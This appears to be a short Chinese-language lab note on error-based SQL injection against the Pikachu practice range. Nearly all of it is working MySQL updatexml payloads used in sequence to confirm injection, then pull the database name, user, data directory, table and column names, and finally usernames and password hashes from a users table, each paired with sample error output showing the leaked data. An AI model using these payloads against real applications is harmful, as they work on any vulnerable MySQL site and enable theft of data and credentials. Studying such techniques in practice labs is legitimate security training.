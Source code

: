 # 报错注入

---

（本案例使用pikachu靶场）

报错显示限制一般为32位



## 判断注入

name='

name=' or 1=1

name=' or 1=2



## payload

```
name=' or updatexml(1,concat(0x7e,(注入语句或者函数),0x7e),0) or '
```



## 查询数据库信息

name=' or updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),0) or '

出现：（0x7e为~，使用database()查询当前使用的数据库名）如果后面显示不出来就单个单个的查询

XPATH syntax error: '~pikachu~kobe~D:/phpstudy/'



## 查询当前数据库的表（找users表）

name=' or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database() ),0x7e),0) or '

出现：

XPATH syntax error: '~httpinfo,member,message,users,x'



## 查询表字段 （找user表的字段）

name=' or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name = 'users'  ),0x7e),0) or '

出现：

XPATH syntax error: '~USER,CURRENT_CONNECTIONS,TOTAL_'



## 查询表数据 （找user的用户名和密码）

name=' or updatexml(1,concat(0x7e,(select username from users limit 0,1 ),0x7e,(select password from users limit 0,1)),0) or '

出现：（查询的结果不能多行，查询字段只能一列，使用拼接）（只看0开始第1个，后续改0即可）

XPATH syntax error: '~admin~e10adc3949ba59abbe56e057f'